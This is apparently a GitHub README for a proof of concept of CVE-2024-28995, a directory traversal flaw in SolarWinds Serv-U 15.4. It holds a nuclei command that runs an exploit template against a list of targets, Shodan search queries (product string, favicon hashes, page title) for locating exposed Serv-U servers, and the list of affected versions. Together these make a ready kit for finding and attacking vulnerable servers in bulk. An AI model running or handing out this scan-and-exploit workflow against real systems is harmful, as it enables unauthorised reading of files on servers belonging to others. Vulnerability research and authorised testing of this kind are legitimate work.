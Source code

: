 ## SolarWinds Serv-U Directory Traversal Vulnerability POC

```
cat targets.txt | nuclei -duc -t CVE-2024-28995.yaml 
```

![image](https://github.com/karkis3c/cves/assets/155802810/8d660d33-9132-49e9-aa51-108aab4d63f1)

## Analysis 
https://t.co/JPCd6Y4v1g

## Shodan Querys

```product:"Rhinosoft Serv-U httpd,rhinosoft serv-u httpd"```

```http.favicon.hash:"812385209,-494622145,-132641984,-2076792107,-1735578509,-938894035,-741511745,-1109617687,963790560,-1882082933"```

```title:"Serv-U"```

## The following versions of Serv-U are affected, running on either Windows or Linux

- Serv-U FTP Server 15.4
- Serv-U Gateway 15.4
- Serv-U MFT Server 15.4
